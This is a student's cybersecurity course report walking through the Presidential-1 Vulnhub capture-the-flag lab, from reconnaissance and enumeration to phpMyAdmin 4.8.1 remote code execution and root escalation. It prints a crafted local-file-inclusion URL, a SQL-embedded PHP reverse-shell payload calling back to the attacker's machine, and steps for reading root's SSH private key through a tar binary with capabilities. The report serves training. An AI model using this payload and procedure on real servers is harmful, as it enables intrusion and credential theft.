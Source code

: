 # Report Presidential Hacking
Cybersecurity Course - University of Trieste - Academic year 2023/2024

Simone Cossaro IN2000201

## Introduction

This report details the steps taken to solve the Vulnhub CTF (Capture the Flag) challenge known as Presidential-1.
Capture the Flag challenges are a cornerstone in the training and development of cybersecurity professionals. These competitions are designed to simulate real-world scenarios where participants must apply their knowledge and skills to solve security-related problems. 

In the scenario of Presidential-1, the U.S. state is developing a registration website for presidential elections and seeks to test the security of the server before launching the website and registration system. One political party is concerned that the opposing party might commit electoral fraud by hacking into the registration system and falsifying votes.

The objective of the challenge is to gain root access to the server.

The attack was conducted following the walkthrough available [here](https://www.hackingarticles.in/presidential-1-vulnhub-walkthrough/).

## Tools

VirtualBox is required for this challenge to run the following two virtual machines:
* the Presidential VM, available on Vulnhub [here](https://www.vulnhub.com/entry/presidential-1,500/)
* an attacking Kali Linux VM
  
Both virtual machines are connected to the same network with NAT.

## Recognition

The first step of the attack is reconnaissance. This phase involves using various techniques to actively or passively gather information that supports targeting. The information collected can include details about the victim's organization, infrastructure, and personnel. In this case, the objective is to identify the IP address of the target machine and the services running on it.

The shell command `netdiscover` automates the process of discovering live hosts on a network. It generates ARP requests for each IP address within a specified range. These requests are broadcasted to all devices on the local network, prompting devices with the corresponding IP addresses to respond with their MAC addresses. `netdiscover` collects these responses and records the IP and MAC address pairs, and it can also identify the device vendor. As a result, the output of `netdiscover` is a list of active hosts on the network.

From the vendor column in the obtained list, it is suggested that the potential target IP addresses could be 10.0.2.3 and 10.0.2.8. To determine which is the correct address, it is necessary to identify the active services on these addresses.
The `nmap` command is used to identify the services, open ports, and software versions on the machine at the indicated address. 

![Steps of recognition](images/recognition.png)  

The scan reveals that the machine with the IP address 10.0.2.8 is running a web service on port 80 using the HTTP protocol and a remote shell on port 2082 using the SSH protocol. This machine is the presidential VM.

## Enumeration

Visiting the main page of the web service on port 80 and scrolling to the bottom reveals an email address (contact@votenow.local), providing the domain name: votenow.local. The domain name can be associated with the IP address by adding a line to the **`/etc/hosts`** file.

In this enumeration phase, Gobuster, a tool for scanning directories and files on web servers, is essential. It locates hidden or unadvertised resources on a web server, such as directories or files that may not be listed directly on a web page but are still accessible.

The Gobuster command specifies the file extensions to search for and the dictionary to use for brute force. Brute force in this context refers to systematically sending HTTP requests for each entry in the provided wordlist. Gobuster tries every word in the wordlist, such as potential directories, files, subdomains, etc., until it finds valid resources or exhausts the options.

![Steps of enumeration](images/enumeration.png)  

Four accessible files were detected during the enumeration phase:

1. **`/index.html`**: This is the main page of the web server, which has already been visited.
2. **`/about.html`**: This page contains placeholder text ("lorem ipsum") and does not provide any useful information.
3. **`/config.php.bak`**: This file appears to be a backup of the `config.php` file and likely contains important configuration information. As seen from the response to the `curl` command, it contains user credentials, which could be useful later.
4. **`/config.php`**: This file is an empty PHP file, offering no additional information.

## Exploiting

Using Gobuster with the vhost option allows the discovery of subdomains. With the dictionary used (**`/dirbuster/wordlists/directory-list-2.3-medium.txt`**), a single subdomain was found: datasafe.votenow.local.

Navigating to the subdomain's web page reveals an access panel for "phpMyAdmin". By entering the previously obtained credentials, the login is successful. Once logged in, the interface allows direct interaction with a SQL database through the execution of queries. From this database, it is possible to retrieve the hash of an admin user's password.

The hash alone cannot be used, so John the Ripper, a password-cracking tool, is employed. Using the famous rockyou dictionary, the password corresponding to the hash is forced, revealing it to be "Stella".

Browsing the page further, it is noted that the phpMyAdmin version is outdated, listed as 4.8.1 while the latest stable version is 4.9.5.

Searchsploit, a tool for searching known exploits and vulnerabilities, reveals three vulnerabilities for this version, one of which allows remote code execution. 

![Searchsploit response](images/searchsploit.png)

Detailed information on how to exploit the RCE vulnerability is provided in response to the following searchsploit command:

`searchsploit -x /php/webapps/50457.py`

The exact same exploit is presented [here](https://www.exploit-db.com/exploits/50457).

As a first approximation the exploit steps in sequence are:
1) authenticate
2) obtain the phpMyAdmin cookie
3) execute a SQL query
4) accurately edit the URL and execute the payload.
   
Authentication was done with the credentials obtained previously.

The phpMyAdmin cookie can be obtained by inspecting the browser's developer tools to find the value of the cookie named phpMyAdmin.

Once authenticated it is possible to execute SQL queries on the databases present, so the point 3 can be easily done. The query must contain a php script within backticks, but in this stage it would not been executed. Under normal circumstances, the web application does not interpret or execute code placed within backticks in the SQL queries. However, by meticulously crafting the URL, it becomes possible to execute the script. This script embedded in the SQL query is the payload.

The URL must be edited to the following format:

**`http://datasafe.votenow.local/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/session/sess_{cookieVal}`**

replacing `{cookieVal}` with the current session's cookie value.

By listening with a netcat listener on port 443 and injecting a SQL query like:

`select '<?php system("bash -i >& /dev/tcp/10.0.2.4/443 0>&1");?>'`

and structuring the URL as shown, the embedded script within the query is executed, establishing a reverse shell on the target machine.

The IP address **`10.0.2.4`** mentioned in the query is the Kali Linux machine's IP where the listener is active on port 443.

![Exploitation of the vulnerability](images/sql_vuln.png)

Following payload execution, a successful reverse shell is established. Authentication is accomplished using the previously obtained admin user credentials.

Now it is possible to read the flag of **`user.txt`** and the file **`read.txt`**.

![Reverse shell connection and authentication](images/reverse_shell.png)


## Privilege Escalation

The next step is listing the capabilities associated with available executable files using the `getcap` command.  It is noted that the tarS binary has '+EP'. This binary allows the compression of any file on the system without being root. Once compressed, it's possible to read the contents of the file by performing only the decompression.

The '/root/.ssh/' directory contains an 'id_rsa' file, which typically holds an RSA private key for SSH authentication.
By having '+ep', compressing and decompressing the 'id_rsa' file, visibility to its contents is gained.

Compression and decompression are done by the two following commands:

* `tarS -xvf id_rsa.tar /root/.ssh/id_rsa` : creates a tar archive called 'id_rsa.tar' containing the 'id_rsa' file present in the '/root/.ssh/' directory.

* `tar -xvf id_rsa.tar` : extracts the file from the 'id_rsa.tar' archive.

After the execution of these two commands, the 'id_rsa' file can be read.

![Obtaining the RSA private key](images/rsa_key.png)

With the RSA private key, remote connection to the presidential machine as root via SSH protocol is possible.

Once arrived at this point, obtaining the final-flag can be done and it marks the end of the challenge.

![Root access](images/ssh_&_final_flag.png)
